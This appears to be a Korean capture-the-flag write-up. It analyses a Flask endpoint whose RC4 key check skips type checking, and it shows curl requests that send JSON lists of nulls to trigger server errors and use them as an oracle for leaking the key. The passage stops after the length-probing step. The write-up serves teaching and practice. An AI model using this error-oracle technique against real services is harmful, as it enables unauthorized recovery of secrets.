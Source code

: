 ```python
    if not verify(enckey, key):
        return jsonify(result=False)
    return jsonify(result=True)


if __name__ == '__main__':
    app.run()
```

여기서 취약점이 발생하는 부분은 /api/data/\<int:data_id\>/check부분이다.
```
def enc(self, c):
        return chr(ord(c) ^ next(self.stream))
        
def verify(enc_pass, input_pass):
    if len(enc_pass) != len(input_pass):
        return False
    rc4 = RC4()
    for x, y in zip(enc_pass, input_pass):
        if x != rc4.enc(y):
            return False

    return True
    
@app.route('/api/data/<int:data_id>/check', methods=['POST'])
def check(data_id):
    data = Data.query.get(data_id)
    if not data:
        return jsonify(result=False)
    req = request.json
    if not req:
        return jsonify(result=False)
    for k in ['key']:
        if k not in req:
            return jsonify(result=False)

    enckey, key = data.key, req['key']
    if not verify(enckey, key):
        return jsonify(result=False)
    return jsonify(result=True)
```
예상하는 공격 방법은 다음과 같다. 
1. 타입체크를 안하고 verify()를 수행한다.
2. length체크를 통해 length가 같을 경우, enc()을 통해 한 글자씩 비교한다.
3. enc함수는 ord를 사용하는데 입력값이 null일 경우, 에러가 발생한다.
4. null이 아닌 printable한 값이랑 비교했을 때, 틀리면 false값이 리턴되고 맞다면 다음 글자를 비교한다.

# Exploit
1번 글이 flag일 가능성이 높으므로 1번 글을 대상으로 공격을 진행하였다.

우선 파라미터는 타입 체크를 안하므로 json타입으로 `{"key":[null]}`과 같이 넘겨준다.
```
curl http://s3.chal.ctf.westerns.tokyo/api/data/1/check --data '{"key":[null]}' -H "Content-Type: application/json" 
{
  "result": false
}
...
curl http://s3.chal.ctf.westerns.tokyo/api/data/1/check --data '{"key":[null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null]}' -H "Content-Type: application/json"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
```